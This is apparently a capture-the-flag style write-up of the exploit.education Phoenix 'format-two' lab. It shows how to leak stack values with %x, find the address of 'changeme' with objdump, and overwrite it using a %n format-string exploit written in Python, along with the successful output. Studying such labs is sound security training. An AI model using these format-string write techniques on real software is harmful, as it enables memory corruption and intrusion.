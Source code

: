 <h3 style="text-align:center" dir="rtl">بسم الله الرحمن الرحيم </h3>

# Format Two:
From the begining of those levels I was using the amd64 levels but in this level because of a bad character in the address of `changeme` variable I could not solve it so in this level I will use the 32-bit program.
<br/>

```c
 if (argc > 1) {
    memset(buf, 0, sizeof(buf));
    strncpy(buf, argv[1], sizeof(buf));
    bounce(buf);
  }
```
The program takes an argument and copy it to `buffer`.The `buffer` is passed to `bounce` function which will print the content of the variable.We need to pass format parameters to buffer and find the offset from the stack frame of `printf` to the start of `buffer` variable.
```bash
root@phoenix-amd64:/opt/phoenix/i486# ./format-two AAAA.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x 

Welcome to phoenix/format-two, brought to you by https://exploit.education
AAAA.ffffd7e9.100.0.f7f84b67.ffffd620.ffffd608.80485a0.ffffd500.ffffd7e9.100.0.41414141.2e78252e.252e7825.78252e78.2e78252eBetter luck next time!

```
The begining of `buffer` is after 11 address since we controll the buffer we can insert the address of `changeme` variable and with the help of `%n` format parameter we can overwrite the value of `changeme` variable.Let find the address of `changeme`.

```bash
root@phoenix-amd64:/opt/phoenix/i486# objdump -x  format-two | grep changeme
08049868 g     O .bss	00000004 changeme
```
The address of the variable `changeme` is `08049868`.Now we can overwrite the value of `changeme` using `%n`.

```python
import struct
import os
string= ''
string += struct.pack('I', 0x8049868)
string += '%x.' * 11
string += '%n'
os.system(" ./format-two " + string)
```


## Exploit:
```bash
root@phoenix-amd64:/opt/phoenix/i486# python exploit.py 
Welcome to phoenix/format-two, brought to you by https://exploit.education
hffffd7f3.100.0.f7f84b67.ffffd630.ffffd618.80485a0.ffffd510.ffffd7f3.100.0.Well done, the 'changeme' variable has been changed correctly!
```
